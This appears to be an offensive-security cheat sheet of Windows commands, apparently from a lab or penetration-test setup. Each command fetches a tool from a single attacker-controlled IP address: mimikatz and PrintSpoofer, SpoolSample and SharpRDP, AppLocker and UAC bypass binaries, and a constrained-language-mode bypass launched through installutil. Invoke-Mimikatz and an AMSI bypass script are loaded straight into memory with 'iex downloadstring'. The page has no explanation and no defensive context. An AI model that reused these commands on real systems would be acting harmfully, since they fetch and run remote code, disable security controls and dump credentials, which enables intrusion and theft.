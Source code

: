 __mimikatz.exe__

```
curl http://10.10.15.160/tools/mimikatz.exe -o C:\Users\Public\mimikatz.exe
```

__PrintSpoofer.exe__

```
curl http://10.10.15.160/tools/PrintSpoofer.exe -o C:\Users\Public\PrintSpoofer.exe
```

__SpoolSample.exe__

```
curl http://10.10.15.160/tools/SpoolSample.exe -o C:\Users\Public\SpoolSample.exe
```

__Invoke-Mimikatz.ps1__

```
iex ((new-object net.webclient).downloadstring('http://10.10.15.160/tools/ps1/Invoke-Mimikatz.ps1')) 
```

__lat__

```
curl http://10.10.15.160/tools/lat.exe -o C:\Users\Public\lat.exe
```

__SharpRDP.exe__

```
curl http://10.10.15.160/obf/SharpRDP.exe -o C:\Users\Public\SharpRDP.exe
```

> 绕过

__AMSI__
```
iex ((new-object net.webclient).downloadstring('http://10.10.15.160/tools/ps1/amsibypass.ps1')) 
```

__SharpAppLocker.exe__
```
curl http://10.10.15.160/obf/SharpAppLocker.exe -o C:\Users\Public\SharpAppLocker.exe
```

__SharpBypassUAC.exe__
``` cmd
curl http://10.10.15.160/obf/SharpBypassUAC.exe -o C:\Users\Public\SharpBypassUAC.exe
```

__PsBypassCLM.exe__
``` cmd
curl http://10.10.15.160/tools/PsBypassCLM.exe -o C:\Users\Public\PsBypassCLM.exe

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Users\Public\PsBypassCLM.exe
```

__Installutil绕过__
